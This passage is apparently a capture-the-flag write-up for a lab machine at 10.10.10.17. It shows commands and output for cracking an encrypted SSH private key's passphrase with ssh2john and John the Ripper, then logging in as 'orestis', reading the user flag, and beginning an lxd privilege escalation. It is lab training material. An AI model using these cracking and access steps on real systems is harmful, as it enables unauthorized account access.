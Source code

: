# JohnTheRipper
## ssh2john
The SSH private key is encrypted so we can use `JohnTheRipper` to crack the password   
to convert the SSH key into a format that John can understand we will use `ssh2john.py`   

```console
root@kali:~# locate ssh2john
/usr/share/john/ssh2john.py
root@kali:~# /usr/share/john/ssh2john.py id_rsa > orestis.hash
root@kali:~# john orestis.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 1 candidate left, minimum 8 needed for performance.
1g 0:00:01:14 DONE (2020-07-06 11:29) 0.01334g/s 191350p/s 191350c/s 191350C/s *7¡Vamos!
Session completed
```

we got the password for the SSH key --> `3poulakia!`

## SSH as orestis
```console
root@kali:~# ssh -i id_rsa orestis@10.10.10.17
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Wed May  3 19:46:00 2017 from 10.10.11.4
orestis@brainfuck:~$ ls
debug.txt  encrypt.sage  mail  output.txt  user.txt
orestis@brainfuck:~$ cat user.txt 
2c11cfbc5b959f73ac15a3310bd097c9
```

# PrivEsc
## lxd (unintended method)
```console
orestis@brainfuck:~$ groups
orestis adm cdrom dip plugdev lxd lpadmin sambashare
```
